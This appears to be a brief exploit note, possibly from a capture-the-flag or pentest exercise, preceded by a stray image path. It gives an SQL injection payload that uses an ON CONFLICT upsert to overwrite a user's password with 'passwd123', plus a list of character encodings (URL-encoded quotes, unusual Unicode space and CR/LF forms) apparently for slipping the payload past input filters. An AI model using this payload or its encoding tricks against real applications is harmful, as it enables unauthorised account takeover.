 sql query for password change:
') ON CONFLICT (username) DO UPDATE SET password = 'passwd123'; -

* %27 — '
* %22 — "
* \u0120 — (space)
* \u0120 — (space)
* \u010D — \r
* \u010A — \n
